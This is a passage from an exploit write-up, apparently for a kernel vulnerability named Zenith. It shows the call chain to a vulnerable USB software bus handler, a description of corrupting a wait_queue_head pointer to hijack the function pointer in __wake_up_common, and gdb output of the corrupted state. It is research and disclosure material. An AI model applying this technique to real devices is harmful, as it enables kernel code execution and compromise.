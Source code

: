 The exploit reaches this function via the following call chain:
```
-> tcpConnector (@0x10AAC)
  -> run_init_sbus (@0xCA78)
    -> initUsbSoftwareBus (@0xC700)
      -> ThreadHandleSbusConnection (@0xC5F4)
        -> SoftwareBus_dispatchNormalEPMsgOut (@0xADF0)
```

To exploit the issue, Zenith overflows an adjacent `wait_queue_head_t.head.next` structure that is placed by the socket stack of the Linux kernel with the address of a crafted `wait_queue_entry_t` under our control (`Trasher` class in the exploit code).

```C
struct wait_queue_head {
	spinlock_t		lock;
	struct list_head	head;
};

struct wait_queue_entry {
	unsigned int		flags;
	void			*private;
	wait_queue_func_t	func;
	struct list_head	entry;
};
```

This structure has a function pointer that I use to hijack execution and redirect the flow to a fixed location, in a large kernel heap chunk where I staged the payload previously. The function invoking the function pointer is `__wake_up_common` as you can see below:

```C
static void __wake_up_common(wait_queue_head_t *q, unsigned int mode,
			int nr_exclusive, int wake_flags, void *key)
{
	wait_queue_t *curr, *next;

	list_for_each_entry_safe(curr, next, &q->task_list, task_list) {
		unsigned flags = curr->flags;

		if (curr->func(curr, mode, wake_flags, key) &&
				(flags & WQ_FLAG_EXCLUSIVE) && !--nr_exclusive)
			break;
	}
}
```

Here is what it looks like in gdb once `q->head.next/prev` has been corrupted:
```text
(gdb) break *__wake_up_common+0x30 if ($v0 & 0xffffff00) == 0xdeadbe00

(gdb) break sock_recvmsg if msg->msg_iov[0].iov_len == 0xffffffff

(gdb) c
Continuing.
sock_recvmsg(dst=0xffffffff85173390)

Breakpoint 2, __wake_up_common (q=0x85173480, mode=1, nr_exclusive=1, wake_flags=1, key=0xc1)
    at kernel/sched/core.c:3375
3375    kernel/sched/core.c: No such file or directory.

(gdb) p *q
$1 = {lock = {{rlock = {raw_lock = {<No data fields>}}}}, task_list = {next = 0xdeadbee1,
    prev = 0xbaadc0d1}}

(gdb) bt
#0  __wake_up_common (q=0x85173480, mode=1, nr_exclusive=1, wake_flags=1, key=0xc1)
```